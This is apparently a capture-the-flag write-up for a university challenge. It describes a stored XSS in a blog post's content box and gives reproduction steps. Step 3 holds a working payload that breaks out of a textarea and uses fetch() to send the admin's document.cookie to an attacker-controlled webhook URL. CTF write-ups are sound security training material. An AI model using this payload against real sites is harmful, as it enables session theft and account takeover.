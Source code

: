 # Challenge `Go on and censor my posts` writeup

- Vulnerability: XSS
- Where: `http://mustard.stt.rnl.tecnico.ulisboa.pt:22253` new blogpost content box
- Impact: Allows an attacker to inject malicious code in the webpage

## Steps to reproduce

1. Get a URL in [Webhook](https://webhook.site/) to collect your http requests
2. Write a random unused title in the 'Title' box and write something (whatever) in the 'Content' box, and click `Create Post`, you'll be redirected to a new page to update the blogpost
3. Write the script `</textarea><script>fetch("`_`<your_webhook_url>`_`?cookie="+document.cookie)</script>` in the 'Content' box and click `Update post and send it for admin review`
4. The admin will execute the script, sending a http request to your Webhook URL with his cookies

__Note: In step 3, `</textarea>` is needed to close the tag, so that the following script is not interpreted as text, but rather as code that will be executed__

[(POC)](pocs/go_on_and_censor_my_posts_poc.py)
